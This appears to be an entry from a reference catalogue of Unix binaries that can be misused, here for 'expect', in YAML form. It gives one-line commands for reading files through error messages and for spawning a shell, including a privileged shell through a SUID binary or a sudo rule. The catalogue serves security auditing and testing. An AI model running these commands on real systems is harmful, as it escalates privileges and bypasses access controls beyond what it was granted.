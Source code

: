 functions:
  file-read:
    - description: The file is read and parsed as an `expect` command file, the content of the first invalid line is returned in an error message. Thus, this might not be suitable to read arbitrary binary files.
      code: |
        LFILE=file_to_read
        expect $LFILE
  shell:
    - code: expect -c 'spawn /bin/sh;interact'
  suid:
    - code: ./expect -c 'spawn /bin/sh -p;interact'
  sudo:
    - code: sudo expect -c 'spawn /bin/sh;interact'
---

